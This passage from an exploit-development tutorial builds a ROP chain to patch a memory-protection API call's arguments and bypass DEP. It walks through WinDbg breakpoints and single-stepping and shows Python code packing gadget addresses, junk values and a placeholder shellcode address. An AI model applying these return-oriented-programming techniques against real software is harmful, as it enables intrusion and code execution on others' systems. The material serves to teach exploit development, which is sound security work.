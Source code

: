 we will let the breakpoint trigger twice before we start single-stepping.
	bp 0x5050118e
	g
	g
	p
	p
	p
	p
	p
	p
	p
	ecx=fffffdf0
	p
	p
	dd eax L4
	
we successfully copied the value from ESI to EAX, while also restoring the original value in ESI. In addition, we subtracted a large negative value from EAX to add a small positive number to it. Once we know the exact offset from ESI to the shellcode, we can update the 0xfffffdf0 value to the correct one.

At this point, EAX contains a placeholder address for our shellcode, which we can update once we finish building the entire ROP chain.

The last step of this section is to overwrite the fake shellcode address (0x46464646) value on the stack. Once again, we can do this using a gadget containing a "MOV DWORD [ESI], EAX" instruction.
rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x5052f773)) # push eax ; pop esi ; ret
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xfffffdf0)) # -0x210
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))

This time, we can repeat the action of setting a breakpoint on the last gadget and continue execution until we trigger it the second time
	bp 0x5051cbb6
	g
	g
	p
	dd poi(esi) L4

Patching Arguments

At the end of the last section, ESI contained the address on the stack where the return address (shellcode address) was written. This means that ESI is only four bytes lower than lpAddress, and we can realign the register by reusing the same INC ESI instructions as we used before.
